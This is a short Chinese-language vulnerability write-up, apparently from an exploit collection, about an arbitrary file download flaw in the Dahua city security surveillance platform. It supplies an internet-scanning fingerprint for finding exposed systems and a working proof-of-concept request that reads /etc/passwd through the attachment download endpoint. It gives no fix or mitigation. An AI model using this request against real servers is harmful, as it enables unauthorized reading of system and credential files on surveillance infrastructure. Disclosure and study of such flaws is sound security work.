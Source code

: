 # 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

大华城市安防监控系统平台管理

## 网络测绘

```
"attachment_downloadByUrlAtt.action"
```

## 漏洞复现

登录页面

![image-20230704113653161](./images/image-20230704113653161.png)

验证POC

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![image-20230704113705975](./images/image-20230704113705975.png)